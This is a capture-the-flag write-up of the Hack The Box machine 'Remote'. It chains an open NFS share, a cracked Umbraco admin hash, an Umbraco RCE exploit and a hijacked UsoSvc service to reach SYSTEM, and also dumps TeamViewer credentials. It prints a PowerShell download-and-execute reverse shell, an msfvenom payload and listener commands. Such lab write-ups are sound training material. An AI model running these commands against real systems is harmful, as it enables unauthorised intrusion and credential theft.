# Remote



Remote is an easy box that involved accessing NFS shares to find credentials, then using an Umbraco RCE exploit to obtain a foothold. Then exploit UsoSvc to gain SYSTEM shell. TeamViewer could also be used to get Administrator.

# Overview
- Enumeration of the target
- Mounting the NFS shares
- Discovering credentials
- Exploiting Umbraco
- user.txt
- Enumeration of the target from the inside
- Privilege Escalation #1
- Privilege Escalation #2
- root.txt

# Enumeration

## Nmap

```bash
finlay@kali:~$ nmap -sC -sV 10.10.10.180
Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 10.10.10.180
Host is up (0.029s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  mountd        1-3 (RPC #100005)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
                                                                                                                                                                                                                                                                                                                           
Host script results:                                                                                                                                                                                                                                                                                                       
| smb2-security-mode:                                                                                                                                                                                                                                                                                                      
|   2.02:                                                                                                                                                                                                                                                                                                                  
|_    Message signing enabled but not required                                                                                                                                                                                                                                                                             
| smb2-time:                                                                                                                                                                                                                                                                                                               
|   date: 2020-08-15T20:01:59                                                                                                                                                                                                                                                                                              
|_  start_date: N/A                                                                                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                                                                                                           
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                                                                                                                                                                             
Nmap done: 1 IP address (1 host up) scanned in 58.99 seconds
```
We can see FTP, a website, and some NFS shares as the most notable things. I took a look at the FTP anonymous login and there wasn't anything there. Let's start by enumerating the website.

## Gobuster

```bash
finlay@kali:~$ gobuster dir -u http://10.10.10.180 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -q
/blog (Status: 200)
/home (Status: 200)
/contact (Status: 200)
/products (Status: 200)
/people (Status: 200)
/Contact (Status: 200)
/install (Status: 302)
/Products (Status: 200)
/Home (Status: 200)
/Blog (Status: 200)
/about-us (Status: 200)
/People (Status: 200)
/INSTALL (Status: 302)
/1112 (Status: 200)
/intranet (Status: 200)
```
We can browse to the /install directory to find an Umbraco login page.



Not finding anything else on the website, we move on to the NFS shares.

## NFS

```bash
finlay@kali:~$ showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
```
The backup is available to everyone, so we can mount it on our local machine.

```bash
finlay@kali:~$ mount -t nfs 10.10.10.180:/site_backups /mnt
```

In the App_Data folder we find a database file name Umbraco.sdf. If we use strings, we can extract the admin password hash.

```bash
finlay@kali:/mnt/App_Data$ strings Umbraco.sdf | head
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
@{pv
qpkaj
```

The interesting part being:

```bash
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}
```

We can crack this hash with [crackstation.net](https://crackstation.net), or john if you prefer.



We can now login to Umbraco with these credentials.


# Exploitation

## RCE

We can now see on the dashboard that it is running Umbraco 7.12.4



We find an RCE exploit for this version on [exploit-db](https://www.exploit-db.com/exploits/46153).
You can use the python script from exploit-db, but I preferred to use [this](https://github.com/noraj/Umbraco-RCE) one because I wanted to use command line arguments.

To get a reverse shell, we need to upload a PowerShell reverse shell and execute it on the target. This can be done with [this](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3#file-powershell_reverse_shell-ps1) reverse shell.

We need to change the first part to:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("LOCAL_IP",LOCAL_PORT);$stream = $client.GetStream();
```

Then start a listener on the same port.

```bash
finlay@kali:~$ nc -nvlp LOCAL_PORT
```

We need to start a HTTP web server in the same directory as the powershell script so that we can download it from the target.

```bash
finlay@kali:~$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

Finally, to get the shell use the Umbraco CVE python script from earlier.

```bash
python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a "IEX(New-Object Net.WebClient).downloadString('http://LOCAL_IP:8000/powershell_reverse_shell-ps1')"
```
And we can see that we get a connection on our listener:



## User.txt

We find the user.txt flag in C:\Users\Public



## Enumeration from the inside

We can download winPEAS on to the target from our local machine and run it to get privilege escalation info.



The most interesting parts of this scan were:

```bash
+] Modifiable Services
 [?] Check if you can modify any service https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
  LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
  UsoSvc: AllAccess, Start
```
and...

```bash
[+] Installed Applications --Via Program Files/Uninstall registry--
 [?] Check if you can modify installed software https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#software
  C:\Program Files (x86)\TeamViewer\Version7
```

# Privilege Escalation #1

To exploit the UsoSvc service, we will create a malicious file and add it to the service path so it is ran as SYSTEM.

First create the payload on your local machine with msfvenom:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=LOCAL_IP LPORT=LOCAL_PORT -f exe > shell.exe
```

Download the shell on to the target with curl or whatever you want to use and then modify the service path.

```powershell
PS C:\windows\temp> sc.exe stop UsoSvc

SERVICE_NAME: UsoSvc 
        TYPE               : 30  WIN32  
        STATE              : 3  STOP_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x3
        WAIT_HINT          : 0x7530
PS C:\windows\temp> sc.exe config UsoSvc binPath="C:\windows\temp\shell.exe"
[SC] ChangeServiceConfig SUCCESS
PS C:\windows\temp> sc.exe start UsoSvc
```

Once you restart the service, this will trigger a SYSTEM shell on your listener.



## Root.txt

We find the root.txt flag in C:\Users\Administrator\Desktop



# Privilege Escalation #2

This version of TeamViewer is vulnerable to a credentials disclosure exploit, and we can use [this](https://www.rapid7.com/db/modules/post/windows/gather/credentials/teamviewer_passwords) metasploit module to exploit it.

Using metasploit, setup a meterpreter shell with a metasploit listener, using the python script to trigger it. Then set the post module.

```bash
msf5 exploit(multi/handler) > use teamviewer

Matching Modules
================

   #  Name                                                  Disclosure Date  Rank    Check  Description
   -  ----                                                  ---------------  ----    -----  -----------
   0  post/windows/gather/credentials/teamviewer_passwords                   normal  No     Windows Gather TeamViewer Passwords


[*] Using post/windows/gather/credentials/teamviewer_passwords
```

Set the session as our meterpreter session and run the exploit.

```bash
msf5 post(windows/gather/credentials/teamviewer_passwords) > set SESSION 1
SESSION => 1
msf5 post(windows/gather/credentials/teamviewer_passwords) > exploit
[*] Finding TeamViewer Passwords on REMOTE
[+] Found Unattended Password: !R3m0te!
```

We can use these as administrator credentials and login with evil-winrm.



## Root.txt

Then we can just get the root.txt flag in the same place as before.

